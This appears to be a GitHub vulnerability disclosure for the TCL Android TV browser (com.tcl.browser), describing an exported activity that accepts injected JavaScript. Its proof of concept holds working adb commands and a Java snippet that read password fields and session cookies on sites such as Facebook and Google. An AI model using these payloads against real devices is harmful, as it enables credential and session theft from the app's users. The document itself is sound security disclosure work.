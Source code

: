 *** This vulnerability was initially disclosed to TCL on 9/2023 & is still vulnerable as of this commit. ***


![image](https://github.com/actuator/com.tcl.browser/assets/78701239/82062ff5-9806-499b-85ed-68cb3594e8ae)



## Vulnerability Report

### Overview:
A Remote Code Execution (RCE) vulnerability has been discovered in the `com.tcl.browser` application on the Android platform. The vulnerability allows an attacker to execute arbitrary JavsScript code within the context of the application without any permissions.

### Application Details:

- **Vendor:** - Shenzhen TCL New Technology Co., Limited
- **Application Name:** 'Browser TV Web - BrowseHere' com.tcl.browser
- **Version:** 6.65.022_dab24cc6_231221_gp
- **Component:** com.tcl.browser.portal.browse.activity.BrowsePageActivity

### Vulnerability Details:

- **Vulnerability Type:** Remote Code Execution (RCE)
- **Attack Vector:** Via an exported activity component
- **Permissions Required:** None

### Description:

The `com.tcl.browser.portal.browse.activity.BrowsePageActivity` activity in the `com.tcl.browser` app is exported and can be invoked by any third-party application without requiring any permissions. A malicious app can exploit this to execute arbitrary JavaScript code within the context of the `com.tcl.browser` application.

This vulnerability is particularly concerning because:
- The victim does not need to grant any special permissions to any installed applications.
- The attack can be initiated remotely.

### Proof of Concept (PoC):


![image](https://github.com/actuator/com.tcl.browser/blob/main/poc.gif)

These ADB commands inject JavaScript to extract password data & browser session cookie & can be accomplished without ADB with no permissions.


```bash
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20password%20%3D%20document.getElementById(%27pass%27).value%3Balert(%27Password%3A%20%27%20%2B%20password)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Facebook.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Facebook.gif)


```
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Bvar%20initialValue%20%3D%20document.querySelector(%27input[data-initial-value]%27).getAttribute(%27data-initial-value%27)%3Balert(%27Initial%20Data%20Value%3A%20%27%20%2B%20initialValue)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```

Google.com

![image](https://github.com/actuator/com.tcl.browser/blob/main/Gmail.gif)

Session Cookie Theft: 



```
adb shell am start -a android.intent.action.VIEW -d 'javascript:(function()%7Balert(%27Session%20Cookies%3A%20%27%20%2B%20document.cookie)%3B%7D)()' com.tcl.browser/com.tcl.browser.portal.browse.activity.BrowsePageActivity
```
![image](https://github.com/actuator/com.tcl.browser/blob/main/cookie.gif)


---

To demonstrate the vulnerability, one can create a simple Android app that invokes the exported `BrowsePageActivity` activity:


    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Create the intent to start the BrowsePageActivity of com.tcl.browser app
        Intent intent = new Intent(Intent.ACTION_VIEW);
        intent.setComponent(new ComponentName("com.tcl.browser", "com.tcl.browser.portal.browse.activity.BrowsePageActivity"));

        // Set the URL data you want to pass (for example "http://www.example.com")
        intent.setData(Uri.parse("http://www.example.com"));
        // OR intent.setData(Uri.parse("javascript:alert('...');"));

        // Start the activity
        startActivity(intent);
        finish();
    }



### Impact:

Successful exploitation allows an attacker to:
- Execute arbitrary JavaScript code within the context of the `com.tcl.browser` app.

The enabled 'settings.setDomStorageEnabled(true)' value in the app's WebView allows for the use of the Web Storage API.

Risks include:

Credential harvesting if websites store sensitive data.
Manipulating or flooding stored values.
Assisting in malicious persistence.

### Mitigation and Recommendations:

1. **Restrict Activity Export:** Do not export activities unless necessary.
If required, implement proper authorization checks to ensure that only legitimate entities can invoke it.


